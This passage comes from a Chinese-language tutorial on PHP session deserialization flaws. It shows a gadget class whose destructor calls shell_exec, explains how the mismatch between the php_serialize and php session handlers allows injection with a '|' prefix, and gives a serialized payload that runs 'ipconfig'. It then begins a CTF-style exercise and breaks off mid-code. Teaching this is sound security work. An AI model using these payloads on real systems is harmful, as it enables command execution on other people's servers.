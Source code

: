 ```php
class D{
    var $a;
    function __destruct(){
        echo shell_exec($this->a);
        var_dump($this->a);
    }
}
```

### payload 构造

```php
由于cookie提交处页面使用的保存cookie的方式时`php_serialize()`，这种办法是数组的方式保存。但是漏洞触发处页面所以使用的读取办法却是`php`，这种办法使用的是`键名|值`的办法，即直接将`|`后的代码当成值，所以在提交的前面加上`|`即可

<?php
class D{
    var $a = 'dir';
}

echo serialize(new D());
```

==输出==

```php
O:1:"D":1:{s:1:"a";s:3:"dir";}
最终payload：
    a=|O:1:"D":1:{s:1:"a";s:8:"ipconfig";}a=|O:1:"D":1:{s:1:"a";s:8:"ipconfig";}
```

提交后的session：

<img src="PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E.assets/image-20230513164136800.png" alt="image-20230513164136800" style="zoom:50%;" />

读取的session：

<img src="PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E.assets/image-20230513164233380.png" alt="image-20230513164233380" style="zoom:50%;" />

## 13.18 session反序列化漏洞例题

### 例题源码

```php
# 漏洞触发处（index.php）
<?php
highlight_file(__FILE__);
/*hint.php*/
session_start();
class Flag{
    public $name;
    public $her;
    function __wakeup(){
        $this->her=md5(rand(1, 10000));
        if ($this->name===$this->her){
            include('flag.php');
            echo $flag;
```